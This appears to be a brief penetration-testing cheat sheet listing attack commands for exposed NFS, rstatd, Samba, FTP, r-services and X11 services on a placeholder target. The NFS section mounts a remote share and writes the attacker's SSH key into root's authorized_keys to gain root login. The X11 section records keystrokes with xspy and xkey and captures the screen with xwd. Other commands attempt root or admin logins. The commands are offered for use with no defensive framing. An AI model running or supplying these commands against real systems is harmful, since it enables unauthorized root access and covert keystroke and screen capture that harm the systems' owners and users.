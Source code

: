 # Services

## NFS

Show mount,

```bash
showmount -e <target IP>
```

Mount and access remote host,
```bash
mkdir /tmp/mount
mount -t nfs -o nolock <target IP>:/share /tmp/mount/
cat /root/.ssh/id_rsa.pub >> /tmp/mount/root/.ssh/authorized_keys
umount /tmp/mount
ssh root@<target IP>
```

## Rstatd

```bash
rsysinfo <target IP>
```

## Samba

```bash
smbclient -L //<target IP>
``

## FTP

```bash
ftp admin@<target IP>
user
admin
pwd
```

## Rservices

```bash
rlogin -l root <target IP>
```

## X11

```bash
xspy <target IP>

xwd -display <targetIP>:<display> -root -out file.xwd
xwud -in file.xwd

xkey <targetIP>:0.0 
```
